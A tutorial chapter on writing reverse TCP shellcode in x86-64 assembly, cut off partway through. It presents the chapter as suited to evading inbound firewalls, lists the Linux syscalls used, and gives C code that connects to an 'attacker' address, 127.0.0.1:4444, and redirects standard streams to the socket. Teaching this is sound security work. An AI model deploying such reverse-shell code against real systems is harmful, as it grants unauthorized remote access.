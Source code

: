 ```yaml
---
title: "20. Reverse TCP Shell"
categories: [Programming, x86-64 Assembly]
tags: [Assembly, x86, x86-64]
mermaid: true
---
```


In this chapter, we'll create a reverse TCP shell - a shellcode that connects back to an attacker-controlled machine, providing remote access. This is often more effective than bind shells as it bypasses inbound firewall restrictions.

![Source](https://cdn.prod.website-files.com/681e366f54a6e3ce87159ca4/6877c6d94cd1d4bca7c48143_bind-shell-vs-reverse-shell-01.png)

*[Source](https://www.sysdig.com/learn-cloud-native/what-is-a-reverse-shell)*

### Working of a Reverse TCP Shell

A reverse TCP shell works as follows:

1. **Create a socket** - Create a network socket
2. **Connect to attacker** - Connect to the attacker's IP and port
3. **Duplicate file descriptors** - Redirect STDIN, STDOUT, STDERR to the socket
4. **Execute shell** - Spawn a shell that communicates over the network

We'll need these Linux system calls:

| Syscall   | x86 Number  | x64 Number | Purpose                    |
| --------- | ----------- | ---------- | -------------------------- |
| `socket`  | 0x167 (359) | 0x29 (41)  | Create network socket      |
| `connect` | 0x16a (362) | 0x2a (42)  | Connect to remote host     |
| `dup2`    | 0x3f (63)   | 0x21 (33)  | Duplicate file descriptors |
| `execve`  | 0xb (11)    | 0x3b (59)  | Execute shell              |

First, let's understand the reverse shell in C:

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <arpa/inet.h>

int main() {
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(4444);  // Attacker's port
    server_addr.sin_addr.s_addr = inet_addr("127.0.0.1");  // Attacker's IP
    
    // Connect to attacker
    if (connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("Connect failed");
        close(sockfd);
        return -1;
    }
    
    // Redirect STDIN, STDOUT, STDERR to socket
    dup2(sockfd, 0);  // stdin
    dup2(sockfd, 1);  // stdout  
    dup2(sockfd, 2);  // stderr
    
```